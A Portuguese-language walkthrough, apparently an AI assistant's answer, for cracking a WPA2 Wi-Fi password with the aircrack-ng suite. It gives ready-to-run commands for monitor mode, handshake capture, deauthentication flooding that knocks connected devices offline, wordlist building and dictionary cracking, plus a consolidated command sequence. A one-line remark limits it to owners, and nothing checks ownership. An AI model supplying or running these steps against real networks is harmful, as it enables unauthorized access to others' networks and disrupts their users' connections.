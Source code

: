 ### 🔧 **Etapas para Recuperar a Senha WPA2**

#### **1. Ativar o Modo Monitoramento na Interface Wireless**
No modo live, primeiro identifique sua interface wireless (geralmente `wlan0` ou `wlan1`):
```bash
iwconfig
```
Se necessário, liste todas as interfaces:
```bash
airmon-ng
```
Mate processos que possam interferir:
```bash
airmon-ng check kill
```
Ative o modo monitoramento (substitua `wlan0` pelo nome da sua interface):
```bash
airmon-ng start wlan0
```
A nova interface de monitoramento geralmente será `wlan0mon`. Verifique:
```bash
iwconfig
```

#### **2. Capturar o Handshake WPA2**
Use `airodump-ng` para capturar o handshake, especificando o BSSID (MAC do roteador) e o canal:
```bash
airodump-ng -c <canal> --bssid <MAC_DO_ROTEADOR> -w /tmp/capture wlan0mon
```
Exemplo:
```bash
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w /tmp/capture wlan0mon
```
- `-c`: canal do roteador.
- `--bssid`: MAC do roteador.
- `-w /tmp/capture`: salva os arquivos de captura em `/tmp` (volátil, mas adequado para modo live).
- `wlan0mon`: interface em modo monitoramento.

#### **3. Forçar um Deauthentication para Obter o Handshake**
Para acelerar a captura do handshake, force uma desautenticação de clientes conectados (isso desconecta dispositivos temporariamente, mas eles reconectarão automaticamente). Em um novo terminal:
```bash
aireplay-ng -0 10 -a <MAC_DO_ROTEADOR> wlan0mon
```
- `-0`: modo deauthentication.
- `10`: número de pacotes de desautenticação (ajuste conforme necessário).
- `-a`: MAC do roteador alvo.

Aguarde até ver `WPA handshake` no canto superior direito do terminal onde `airodump-ng` está rodando. Depois, pressione `Ctrl+C` para interromper a captura.

#### **4. Preparar um Dicionário em Português do Brasil**
Como a senha está em português, use ou crie um dicionário com palavras comuns em português. No modo live, você pode:
- Usar dicionários existentes no Kali (ex: `/usr/share/wordlists/`).
- Criar um dicionário personalizado com palavras em português.

Exemplo de dicionários disponíveis no Kali:
```bash
ls /usr/share/wordlists/
```
Alguns arquivos comuns: `rockyou.txt.gz` (descompacte com `gzip -d /usr/share/wordlists/rockyou.txt.gz`), `sqlmap.txt`, etc.

Como o Kali live não tem persistência, você pode baixar um dicionário em português antecipadamente e salvar em um pendrive, ou criar um manualmente. Exemplo de criação básica:
```bash
echo -e "senha\\n123456\\nbrasil\\nroteador\\nadmin\\npassword\\nwifisegura" > /tmp/wordlist_ptbr.txt
```
Para um dicionário mais robusto, considere usar listas como:
- **BruteForce wordlist** (já inclui termos em português).
- **Custom wordlist** com palavras comuns em PT-BR (ex: nomes, cidades, palavras comuns).

💡 *Dica: Se tiver outro roteador com internet, você pode baixar wordlists grandes, mas não é necessário para o processo de cracking.*

#### **5. Quebrar a Senha com Aircrack-ng**
Use `aircrack-ng` para testar o dicionário contra o handshake capturado:
```bash
aircrack-ng -a2 -b <MAC_DO_ROTEADOR> -w /tmp/wordlist_ptbr.txt /tmp/capture-01.cap
```
- `-a2`: indica WPA2.
- `-b`: MAC do roteador.
- `-w`: caminho para o arquivo de dicionário.
- `/tmp/capture-01.cap`: arquivo de captura (o número pode variar).

Se o dicionário contiver a senha, você verá:
```
KEY FOUND! [ senha_recovered ]
```
Caso contrário, tente com outro dicionário.

---

### ⚙️ **Otimizações para Modo Live**
- Como o modo live não salva dados após desligar, trabalhe na pasta `/tmp` (que é em RAM).
- Se possível, use um pendrive com persistência para salvar capturas e wordlists grandes.
- Para melhor performance, use dicionários focados em PT-BR. Exemplos:
  - [**BruteForce wordlist**](https://github.com/jeanphorn/wordlist) (inclui termos em português).
  - [**SecLists**](https://github.com/danielmiessler/SecLists) (contém listas em múltiplos idiomas).

---

### ❌ **Se Não Funcionar**
- Se o handshake não for capturado, repita o passo de deauthentication.
- Aumente o número de pacotes de deauthentication (ex: `-0 20`).
- Verifique se a interface está realmente em modo monitoramento (`iwconfig`).
- Use um dicionário maior ou mais específico.

---

### 📌 **Exemplo de Comandos em Sequência**
```bash
# Ativar modo monitoramento
airmon-ng check kill
airmon-ng start wlan0

# Capturar handshake (canal 6, BSSID 00:11:22:33:44:55)
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w /tmp/capture wlan0mon

# Em outro terminal: forçar deauthentication
aireplay-ng -0 10 -a 00:11:22:33:44:55 wlan0mon

# Quebrar senha com dicionário PT-BR
aircrack-ng -a2 -b 00:11:22:33:44:55 -w /tmp/wordlist_ptbr.txt /tmp/capture-01.cap
```

---

### 🌐 **Precisa de Internet?**
**Não.** Todo o processo é offline após ativar o modo monitoramento. A captura do handshake e o cracking são feitos localmente. A internet só seria útil para baixar wordlists adicionais, mas não é essencial.

---

### ✅ **Dicionário Sugerido para PT-BR**
Crie um arquivo `/tmp/wordlist_ptbr.txt` com palavras comuns:
```bash
echo -e "senha\\n123456\\nbrasil\\nroteador\\nadmin\\npassword\\nwifisegura\\nminhasenha\\nseguranca\\n123456789\\nquerty\\nmeuroteador\\nnovasenha\\nsenha123" > /tmp/wordlist_ptbr.txt
```
Para listas mais completas, busque por "wordlist portuguese" no GitHub ou use tools como `crunch` para gerar combinações personalizadas.

---

### 🧠 **Notas Finais**
- Esse processo é ético apenas se você for o proprietário do roteador.
- No modo live, tudo é perdido ao desligar. Use persistência ou salve em mídia externa se precisar manter dados.
- O tempo de cracking depende do tamanho do dicionário e da complexidade da senha.

Se seguir esses passos, chances são de que recupere a senha! 🔓
